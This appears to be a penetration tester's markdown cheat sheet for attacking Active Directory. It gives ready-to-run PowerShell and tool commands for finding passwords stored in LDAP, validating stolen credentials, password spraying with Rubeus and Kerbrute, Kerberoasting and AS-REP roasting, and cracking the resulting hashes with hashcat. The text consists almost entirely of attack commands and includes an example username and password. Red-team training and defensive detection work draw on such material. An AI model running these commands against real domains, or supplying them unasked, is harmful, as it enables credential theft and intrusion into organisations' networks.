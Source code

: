 # 1. Sensitive Data in LDAP
## Start ADExplorer and search through the AD for sensitive information
PS> `adexplorer.exe`

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
`PS> .\ADRecon.ps1`

`PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp`

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
```
function Test-ADCredential {

    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}
```

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Rubeus
`PS> .\Rubeus.exe brute /password:Start123!`

### Kerbrute
`PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`PS> Import-Module .\PowerView.ps1`

`PS> (Get-NetUser | select samAccountName).samAccountName > users.txt`

`PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
`PS> Import-Module .\PowerView.ps1`

`PS> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl`

`PS> Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### PowerView-Dev
`PS> Import-Module .\PowerView-dev.ps1`

`PS> Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl`

`PS> Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### Invoke-Kerberoast
`PS> Import-Module .\Invoke-Kerberoast.ps1`

`PS> Invoke-Kerberoast`

### Rubeus
`PS> .\Rubeus.exe kerberoast`

## Get TGS Kerberos Tickets
### PowerView-Dev
`PS> Import-Module .\PowerView-dev.ps1`

`Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Invoke-Kerberoast
`PS> Import-Module .\Invoke-Kerberoast.ps1`

`PS> Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Rubeus
`PS> .\Rubeus.exe kerberoast /outfile:kerberoasted.txt`

## Crack TGS tickets
`PS> hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt`

# 3. Kerberoasting
## Identify AS-REP roastable users
### PowerView-Dev
`PS> Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset`

`PS> Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset`

### Rubeus
`PS> .\Rubeus.exe asreproast`

### Invoke-ASREPRoast
`PS> Import-Module .\Invoke-ASREPRoast.ps1`

`PS> Invoke-ASREPRoast`

## ASREPRoasting
### Rubeus
`PS> .\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt`

### Invoke-ASREPRoast
`PS> Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt`

## Cracking AS-REP hash with Hashcat
`PS> hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt`
